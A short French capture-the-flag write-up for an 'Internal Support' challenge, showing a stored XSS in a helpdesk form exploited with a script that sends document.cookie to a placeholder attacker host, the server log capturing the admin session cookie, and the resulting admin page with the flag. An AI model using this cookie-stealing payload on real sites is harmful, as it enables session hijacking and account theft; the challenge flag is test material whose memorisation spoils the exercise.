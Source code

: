 # Internal Support

## wu

On a un formulaire sujet a une vulnérabilité XSS. On s'en rend compte facilement avec un simple:
```
<script>alert("XSS")</script>
```

Nous allons donc voler le cookie admin.


Notre Payload
```
<script>window.location = "http://<IP>/stealer.php?c=" + document.cookie;</script> 
```


Our server:
```

<----- Request End -----

46.30.202.223 - - [14/Nov/2020 15:09:35] "GET /stealer.php?c=session=.eJwlTstqAzEM_BXjcyj2riXZ-YreS1hkW8qGptmy3pxC_r2CnoYZaR4vv-idxyrDn79e3h0G_kfG4Kv4k_-8Cw9x9-3qbg93bI5bs6M71ttwv_bz4S_vy8lCdhmrPx_7U4zduj_70mCuNRXoESOxTBQ1M_GMFFpKIWEsikG5UIYOMZF2VOwZG0miwGFOogpTnnLLFbgTakGNrBIFy1xEOYUJIHUuTJTizKhQoQasHWz-8hyy_6-JRtvYdTm2b3mYkBGrWiY0Kg0zaezmShWLdWbC3lszTfz7D_jxVzI.X6_zLg.429-HHNVlxb8Cn-QXp5SPRAV3YA HTTP/1.1" 200 -

----- Request Start ----->
```


On edit notre cookie avec Burpsuite

```
<section style="margin-top: 50px;" class="pt-95 pb-100">
  <div class="container">
    <div class="row justify-content-center">
      <div class="col-lg-8">
        <div class="section-title pb-20">
          <h4 class="title">TODOLIST</h4>
        </div>
      </div>
    </div>
    <div class="row justify-content-center">
      <div class="col-lg-8">
        <div class="section-title pb-20">

          <p class="text">
            - Fix the kernel panic problem on the servers
          </p>

          <p class="text">
            - Find a solution for the XSS on the helpdesk system
          </p>

          <p class="text">
            - Hide the flag &#34;NoUserValidationIsADangerousPractice&#34; a little bit better
          </p>

        </div>
      </div>
    </div>
  </div>
</section>
```
